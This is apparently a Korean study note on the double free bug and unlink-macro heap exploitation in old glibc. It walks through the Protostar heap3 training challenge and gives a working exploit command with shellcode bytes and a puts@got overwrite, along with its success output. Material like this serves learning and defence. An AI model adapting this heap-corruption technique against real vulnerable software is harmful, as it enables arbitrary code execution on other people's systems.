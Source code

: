 # **Double Free Bug**

Free를 두 번할 경우 발생하는 버그이다.

Free가 호출될 때 인접한 Free Chunk가 있다면 더 큰 Free Chunk로 병합된다.

Chunk가 병합될 때 unlink 매크로가 발생한다. unlink 매크로를 통해 원하는 공간에 원하는 값을 입력할 수 있다.

unlink를 공격하는 방법은 glibc 2.3.2 버전 이하에서만 가능하다.

```c
#define unlink(P, BK, FD) {
    FD = P->fd;
    BK = P->bk;
    FD->bk = BK;
    BK->fd = FD;
}
```

```
FD = *P + 8;
BK = *P + 12;
FD + 12 = BK;
BK + 8 = FD;
```

![unlink](/Resources/img/double_free_bug_unlink.jpeg)

## **Proof of Concept**

### **Protostar의 heap3**

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
void winner()
{
  printf("that wasn't too bad now, was it? @ %d\n", time(NULL));
}
int main(int argc, char **argv)
{
  char *a, *b, *c;
  a = malloc(32);
  b = malloc(32);
  c = malloc(32);
  strcpy(a, argv[1]);
  strcpy(b, argv[2]);
  strcpy(c, argv[3]);
  free(c);
  free(b);
  free(a);
  printf("dynamite failed?\n");
}
```

strcpy(a,argv[1])에서 Overflow를 통해 b의 **P flag**와 **pre_size** 값을 변조한다.  

**P flag 변조**
* P flag가 0이라는 뜻은 b가 free될 때 a chunk와 병합이 일어난다는 뜻이다. 
* 따라서 P flag를 0으로 변조시키면 unlink 매크로가 발생한다. 
* unlink가 실행되면 fd가 가리키는 주소의 + 12 지점에 bk가 입력되고 bk가 가리키는 주소의 + 8 지점에 fd가 입력되어 임의의 주소에 원하는 값을 입력할 수 있다.

**pre_size 변조**
* Heap에서 이전 Chunk의 주소값은 "&b - pre_size"로 표현된다.
* pre_size 값을 0xfffffffc(-4)로 변조할 경우 &b + 4 byte가 된다.
* 생성한 가짜 Chunk는 우리가 입력할 수 있는 공간이기 때문에 fd와 bk를 조작할 수 있다.

### **Exploit Method**

1. a에 "push puts@got ; ret" 코드 삽입 및 \xfc\xff\xff\xff로 pre_size, size 변조
1. 가짜 Chunk의 fd 위치에 puts@got - 12를 삽입하고 bk에는 해당 code를 가리키는 주소값을 입력한다. 

## **Exploit**

```
root@protostar:/home/protostar# ./heap3 $(python -c 'print "\x90"*22+"\x68\x64\x88\x04\x08\xc3"+"A"*4+"\xfc\xff\xff\xff"+"\xfc\xff\xff\xff"') $(python -c 'print "A"*4+"\x1c\xb1\x04\x08"+"\x10\xc0\x04\x08"') C
that wasn't too bad now, was it? @ 1577555750
```

### **Add**

* DFB에서 .dtors + 4(소멸자)의 주소를 찾아 사용하는 방법도 있음

**References**  
<http://index-of.co.uk/Reverse-Engineering/Double%20Free%20Bug%20%5Bseoty-_-v%5D.pdf>  
<https://medium.com/@airman604/protostar-heap-3-walkthrough-56d9334bcd13>  
<https://itsaessak.tistory.com/136> 